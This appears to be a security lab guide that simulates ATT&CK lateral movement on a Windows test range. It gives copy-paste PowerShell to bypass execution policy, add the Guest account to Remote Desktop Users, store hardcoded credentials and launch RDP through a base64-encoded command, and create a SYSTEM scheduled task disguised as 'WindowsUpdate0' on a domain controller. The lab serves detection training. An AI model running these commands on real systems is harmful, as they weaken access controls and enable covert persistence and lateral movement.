 ```yaml
---
Title: ATT&CK - Lateral Movement Phase
Description: Simulate lateral movement techniques used by attackers within a network
Author: Chris Gerritz, Datto
Created: 04/17/2025
Achievements:
Duration: 15
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to create RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Preparation Instructions

1. Open **PowerShell** as an administrator:
   - Right-click PowerShell.
   - Select "Run as Administrator."
2. Prepare the environment by running the following:
   ```PowerShell
   # Define a random delay number (used to randomize operations)
   $n = 1000 + $(Get-Random -Max 999)
   # Bypass signed script controls
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
   ```

---

## Instructions

### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   $cmd = @'
   cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
   mstsc /v:CORP-DC01
   echo "RDP connection initiating......"
   '@

   $cmd += "`nStart-Sleep -Milliseconds $n"
   $bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
   $encoded = [Convert]::ToBase64String($bytes)

   powershell.exe -NoProfile -EncodedCommand $encoded

   ```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."
   Start-Sleep -Seconds 3

   & Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
       cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
   }
   ```



---
